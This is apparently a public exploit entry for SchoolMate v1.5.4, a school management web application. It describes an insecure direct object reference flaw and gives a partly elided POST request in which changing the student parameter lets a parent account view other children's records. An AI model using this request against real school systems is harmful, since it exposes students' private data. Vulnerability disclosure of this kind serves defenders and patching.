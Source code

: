 # Exploit Title: SchoolMate v1.5.4 - Insecure Direct Object Reference(IDOR)
## Date: 4/1/2024
## Vendor Homepage: https://sourceforge.net/projects/schoolmate/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: SchoolMate
## Version: v1.5.4
## Exploit Description:
## SchoolMate v1.5.4 suffers from IDOR - Broken Access Control Vulnerability allowing attacker parent to look up information of other student who is not his child(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /index.php HTTP/1.1
...

student=1(CHANGE HERE)&page2=5&logout=&page=5
```